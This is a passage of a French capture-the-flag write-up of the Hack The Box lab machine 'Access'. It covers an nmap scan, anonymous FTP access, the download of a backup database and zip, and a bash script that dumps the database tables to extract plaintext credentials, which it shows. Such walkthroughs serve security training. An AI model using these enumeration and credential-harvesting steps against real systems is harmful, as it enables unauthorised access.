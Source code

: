 # Access writeups by Seyptoo.

[![forthebadge made-with-python](https://image.noelshack.com/fichiers/2019/09/6/1551530466-capture-du-2019-03-02-13-40-56.png)](https://image.noelshack.com/fichiers/2019/09/6/1551530466-capture-du-2019-03-02-13-40-56.png)

Informations
----
    Ip : 10.10.10.98       Created by : egre55
    Level : Very easy            Base Points : 20
    
Scan Nmap
----
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_Can't get directory listing: TIMEOUT
    23/tcp open  telnet?
    80/tcp open  http    Microsoft IIS httpd 7.5
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: MegaCorp
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
 Après avoir effectué le scan, nous avons 3 ports ouverts, le (21) pour le FTP, le (23) pour le telnet, et le (80) pour le httpd. Le FTP peut être accéder en tant que anonymous donc nous allons essayer d'énumérer.
 
FTP Enumeration
----
Pour la connexion au serveur FTP, l'utilisateur et le mot de passe 'anonymous:anonymous'.

    root@Computer:~/htb/writeup/Access# ftp 10.10.10.98
    Connected to 10.10.10.98.
    220 Microsoft FTP Service
    Name (10.10.10.98:root): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password:
    230 User logged in.
    Remote system type is Windows_NT.
    ftp>
 
 La connexion c'est déroulais avec succès donc essayons de lister les fichiers dans le dossier.

    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-23-18  08:16PM       <DIR>          Backups
    08-24-18  09:00PM       <DIR>          Engineer
    226 Transfer complete.
    ftp>
    
Comme vous pouvez le voir, il y'a un dossiers Backups et un dossier Engineer. Dans le dossier Backups il y'a un fichier mdb, pour les bases de données, et dans le dossier Engineer il y'a un fichier zip. Donc nous allons transférer c'est fichiers vers notre machine physique avec la commande **mget [file]**, avant de transférer nous devons passer de ASCII à BINAIRE.

    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-23-18  08:16PM              5652480 backup.mdb
    226 Transfer complete.
    ftp> binary
    200 Type set to I.
    ftp> mget backup.mdb
    mget backup.mdb? y
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.
    5652480 bytes received in 7.70 secs (716.7322 kB/s)
    ftp> cd ..
    250 CWD command successful.
    ftp> cd Engineer
    250 CWD command successful.
    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-24-18  12:16AM                10870 Access Control.zip
    226 Transfer complete.
    ftp> mget "Access Control.zip"
    mget Access Control.zip? y
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.
    10870 bytes received in 0.83 secs (12.7677 kB/s)
    ftp> 

Voilà les fichiers ont été transférer avec succès, sans aucun problème donc nous pouvons quitter le serveur FTP. Et d'énumérer c'est fichiers.

Enumeration MDB
----
Nous allons installer un petit programme pour dump tout ça. Vous devez installé le paquet **mdbtools** avec apt, vous pouvez aussi également utilisé la version GUI avec **mdbtools-gmdb2**.

Pour voir les tables utilisé la commande :

    root@Computer:~/htb/writeup/Access# mdb-tables -1 backup.mdb
    [...SNIP...]
    auth_user
    [...SNIP...]
    
J'ai créer un petit script en bash pour automatisé tout ça, et de chopper les mots de passes plus facilement grâce à mon petit script en bash.

    #!/bin/sh

    name_file=$1
    # This variable will be the file.

    for tables_names in $(mdb-tables -1 $name_file)
    do
      ExportCommand=("mdb-export $name_file $tables_names")
      # Will execute the command.
      if [ "$ExportCommand" != '' ]; then
        $ExportCommand|grep ,26,
      fi
    done
    
Et la sortie du fichier :

    root@Computer:~/htb/writeup/Access# bash server.sh backup.mdb 
    25,"admin","admin",1,"08/23/18 21:11:47",26,
    27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
    28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
    root@Computer:~/htb/writeup/Access#

Parfait nous avons des identifiants, énumerer plus.

Archive ZIP
----

